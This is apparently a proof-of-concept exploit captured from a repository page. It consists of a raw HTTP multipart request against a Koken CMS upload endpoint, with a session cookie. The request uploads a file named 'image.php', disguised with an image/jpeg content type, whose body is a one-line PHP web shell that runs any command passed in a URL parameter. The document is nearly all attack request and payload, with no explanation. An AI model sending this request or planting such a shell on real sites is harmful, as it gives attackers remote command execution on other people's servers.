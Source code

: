 ```sh
Cookie: koken_session_ci=u1YR5VZ8znra9LIUkLILlGecmHce75FKV5DWXBbk7uYYqfgn3SfP%2Fv%2F%2BlcvdflHe%2F68Nu9NLLMMU%2B1%2Fotwnv90r%2BlfToAK%2BQoG8SQNPUvfy8nm7kpSypm9caLceaSjszFBWwEYsxMCYj1TtOz4VtIK50XSQatWYQ5t4WcvnqsjdQLn0woHnn0m8P2Hj0gQTeD4hEZb3pFwPV%2BY1vrsNnMDnA3VxGaVwO9HRyPLg5lOdfIbyVeGOInZPlnAMiUychWMUoGyFYTuwH2fOrLygXzyEyTaCLpskaWRBek6KLNrf2P9n368BIsd47RE5fdsSauyb4%2FEHrTazlrT9S7qQ1UjXMlWcmxXpBfbb4KMbqjULQZyjukALxaOyWPuFTPGv%2F9ZMHXeiUycfNvgA9nbDRJrQgURy5F9jx%2FdgFhctZoi4Al%2B9GRZWOip3vP%2BiRM4ZHQkCH2iZfMY2JkDAFR8cTQbqj4NYs3eEO5KMMHkyTDy3S9qFIFbd7olPOoOumelKw%2Fbq8G4A1osKMvZNsnzPPXwtd8E5aPQqFbB2oVUi4pXgrlFcXgB2jDyh3pWO7cd7z13I3uWOk3Anc4dCKqZvF7o7ChUbh8bPX7oyKA2k8NvpkjVMt%2BQBRdbMrDP8Et3OM%2FmFR4cksEVxv3m9cai8XFvytgpRKKcyqGa%2FzKo16OFLdlZFMWZuXLtCcsadOq2aK1%2BHgFbY%2BFhJas8PLy%2BIvFVKDeoTbYSRL83wc6UJg0aaI%2BD5sj9FC3pIe9OpqPFGlgPOdiVhXYenGpkAJwRUl5xVBJJff8rNkXkPdX6zKMfFxv9eppydOkRLc5ON%2Bw5AE2M12zraTlGLcfVmywe9m6TEEo31KrJq8iXH39XojBnGvnTB6W6ZixhYvYVEy6OVhhqT49PKTqnxH3wOdn%2Fi7gRsIZkTwv9LPBdl%2BzdkVuT3LnUqGTU5m8bMgWM0sI8slhcCESCMy4sRMMYATv9XPNaNVzmRpXgO%2FJze%2FNMk9M5y4RePiaOT0svglmLBbuus3wSHWkZRZMwHpC2Hp7HtF5F7DdwVs7E4nCmW5GcjLRQbG%2BKd%2B6lEZ2u96NafGk%2BXufakMz5qv52ulSWUCdMYGGl49L0oRGG8oGrHmJ2WOO%2B%2B9w8ch2a5z3h1sndkBs760zYgv1Ptwfu4refz5ol6OyufqwwAIipAogoEA9ayNw9RkC1PUSbuSdG%2FT7mbCvf9078zSM2Gyua6JUVlNFItSq6VfArs57oHnN8K%2FCCP0S6gmYrnISL2PYcau8O%2FCSjZTmDLjgFiAnzU4WKs6%2FAmxjzayQSRtQLiw9dT744GrwvV2gwc1VeO4FPpiq59rgy%2BY4152d83683f8449982019921a126c94440322d38
Connection: keep-alive

------WebKitFormBoundarydjT9BT6fKT3BUBDZ
Content-Disposition: form-data; name="name"

image.php
------WebKitFormBoundarydjT9BT6fKT3BUBDZ
Content-Disposition: form-data; name="chunk"

0
------WebKitFormBoundarydjT9BT6fKT3BUBDZ
Content-Disposition: form-data; name="chunks"

1
------WebKitFormBoundarydjT9BT6fKT3BUBDZ
Content-Disposition: form-data; name="upload_session_start"

1738324309
------WebKitFormBoundarydjT9BT6fKT3BUBDZ
Content-Disposition: form-data; name="visibility"

public
------WebKitFormBoundarydjT9BT6fKT3BUBDZ
Content-Disposition: form-data; name="license"

all
------WebKitFormBoundarydjT9BT6fKT3BUBDZ
Content-Disposition: form-data; name="max_download"

none
------WebKitFormBoundarydjT9BT6fKT3BUBDZ
Content-Disposition: form-data; name="file"; filename="image.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']);?>

------WebKitFormBoundarydjT9BT6fKT3BUBDZ--
```
{% endraw %}
